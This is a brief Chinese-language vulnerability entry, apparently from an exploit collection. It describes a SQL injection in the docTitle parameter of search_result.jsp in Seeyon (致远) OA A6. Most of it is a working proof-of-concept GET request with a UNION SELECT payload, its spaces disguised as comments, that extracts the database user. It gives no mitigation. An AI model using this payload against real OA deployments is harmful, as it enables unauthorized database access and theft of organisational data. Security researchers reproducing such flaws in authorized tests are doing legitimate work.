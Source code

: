 # 致远OA A6 search_result.jsp sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3347](https://www.zhihuifly.com/t/topic/3347)

# 致远OA A6 search_result.jsp sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
/yyoa/oaSearch/search_result.jsp 
```

##### 漏洞详情:

```
版本：A6
注意：需登录账户
注入发生在search_result.jsp文件中的docTitle参数 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/oaSearch/search_result.jsp?docType=协同信息&docTitle=1'and/**/1=2/**/ union/**/all/**/select/**/user(),2,3,4,5%23&goal=1&perId=0&startTime=&endTime=&keyword=&searchArea=notArc 
```